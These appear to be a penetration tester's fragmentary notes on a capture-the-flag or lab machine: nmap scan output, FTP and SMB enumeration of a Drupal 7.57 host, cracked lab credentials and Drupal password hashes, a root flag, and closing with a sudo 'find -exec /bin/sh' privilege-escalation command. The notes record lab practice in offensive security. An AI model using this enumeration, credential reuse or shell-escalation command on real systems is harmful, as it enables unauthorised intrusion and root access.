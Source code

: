 ````
Nmap scan report for 192.168.100.52
Host is up (0.00049s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.100.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 65534    65534         318 Apr 18  2022 updates.txt
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 07:4b:65:c3:47:67:59:0a:cd:09:c2:82:28:c2:d7:31 (RSA)
|   256 72:dd:b0:26:7b:e4:5d:f6:a8:30:b3:2d:2d:7f:ae:4b (ECDSA)
|_  256 3b:09:bf:94:af:6d:3c:77:4b:e6:6c:2d:32:2e:ad:2a (ED25519)
80/tcp   open  http          Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-02-21 17:28  drupal/
|_
|_http-title: Index of /
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 4.13.17-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql         MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Support41Auth, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, LongColumnFlag, FoundRows, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: es2=|zn9nB<E&.R6U,v0
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server xrdp
MAC Address: 02:A1:3B:07:D8:37 (Unknown)
Service Info: Hosts: ip-192-168-100-52.eu-central-1.compute.internal, IP-192-168-100-52; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: IP-192-168-100-, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.13.17-Ubuntu)
|   Computer name: ip-192-168-100-52
|   NetBIOS computer name: IP-192-168-100-52\x00
|   Domain name: eu-central-1.compute.internal
|   FQDN: ip-192-168-100-52.eu-central-1.compute.internal
|_  System time: 2024-04-15T00:03:45+00:00
| smb2-time: 
|   date: 2024-04-15T00:03:46
|_  start_date: N/A
`````

192.168.100.52

![[Pasted image 20240414232452.png]]

Greetings gentlemen!

- I have setup the server successfully and have configured Drupal.
- Your Drupal usernames are exactly the same as your user account passwords on this server. Contact me to get your Drupal passwords.
- I was too busy to setup a file sharing server so i will be posting the updates here.

- admin

version = "7.57"
project = "drupal"


 Attempting to map shares on 192.168.100.52
//192.168.100.52/print$ Mapping: DENIED, Listing: N/A
//192.168.100.52/shared Mapping: OK, Listing: OK
//192.168.100.52/IPC$  Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\auditor (Local User)
S-1-22-1-1002 Unix User\dbadmin (Local User)

ubuntu
auditor
dbadmin
nobody

![[Pasted image 20240415003634.png]]

gentlemen:admin 

![[Pasted image 20240415010155.png]]

![[Pasted image 20240415013014.png]]

DB
drupal:syntex0421

admin
``$S$D67i0qFmSLMLwZ9PU7VEocSS9fvV1JaSeJxQMgCid80hGbq6wXZH``

auditor:qwertyuiop

dbadmin:sayang
``$S$DZcGD5qcb6xso1E/Mu6DJP4uPi5DfY28kBEyuIab8Pod1saBaImN``

Vincenzo:789456 


test
``$S$D5gYYZfqF0sRsA061HU48PvLQGUkIs5BVjVyMXl8APV2ZVW99Nmm``

![[Pasted image 20240415013618.png]]

contraseñas:

qwertyuiop
789456
sayang


ROOT FLAG

c6b7d5f48ac04e959d0a71af56ace9d3

SSH
sudo -l
sudo find . -exec /bin/sh \\; -quit


